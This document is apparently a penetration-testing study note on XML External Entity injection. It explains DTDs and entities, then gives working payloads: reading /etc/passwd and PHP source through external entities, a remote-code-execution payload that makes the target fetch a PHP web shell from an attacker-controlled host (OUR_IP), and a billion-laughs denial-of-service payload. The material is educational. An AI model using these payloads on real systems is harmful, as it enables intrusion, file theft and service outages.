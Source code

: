 # XML External Entity (XXE) Injection
- [XML DTD](#xml-dtd)
- [XML Entities](#xml-entities)
- [Exploitation](#exploitation)

## XML DTD
- XML Document Type Definition (DTD) allows the validation of an XML document against a pre-defined document structure. The pre-defined document structure can be defined in the document itself or in an external file.
- Example: 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```
- The following is an example DTD for the XML document :
```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```
- The DTD is declaring the root email element with the ELEMENT type declaration and then denoting its child elements. 
- After that, each of the child elements is also declared, where some of them also have child elements, while others may only contain raw data (as denoted by PCDATA).

- The above DTD can be placed within the XML document itself, right after the XML Declaration in the first line. Otherwise, it can be stored in an external file (e.g. email.dtd), and then referenced within the XML document with the SYSTEM keyword, as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
-------------------------------------------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

## XML Entities
- We may also define custom entities (i.e. XML variables) in XML DTDs, to allow refactoring of variables and reduce repetitive data. This can be done with the use of the ENTITY keyword, which is followed by the entity name and its value, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
- Once we define an entity, it can be referenced in an XML document between an ampersand & and a semi-colon ; (e.g. `&company;`). Whenever an entity is referenced, it will be replaced with its value by the XML parser. 

> [!TIP]
> We may also use the `PUBLIC` keyword instead of `SYSTEM` for loading external resources, which is used with publicly declared entities and standards, such as a language code (lang="en").



> [!TIP]
> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.



## Exploitation
### Local File Disclosure

- **Reading Sensitive Files**
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
``` 

> [!TIP]
> In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.

- **Reading Source Cod**e
    - If a file contains some of XML's special characters (e.g. </>/&), it would break the external entity reference and not be used for the reference. 
    - Furthermore, we cannot read any binary data, as it would also not conform to the XML format.
    - Luckily, PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format.
    ```xml
    <!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
    ]>
    ```

> [!IMPORTANT]
> This trick only works with PHP web applications.

- **Remote Code Execution**
    - This exploit requires the PHP expect module to be installed and enabled.
    - If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as expect://id, and the page should print the command output
    - However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute.
    ```bash
    echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
    sudo python3 -m http.server 80
    ```
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE email [
    <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
    ]>
    <root>
    <name></name>
    <tel></tel>
    <email>&company;</email>
    <message></message>
    </root>
    ```

> [!NOTE]
> We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

- **DOS attack**
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```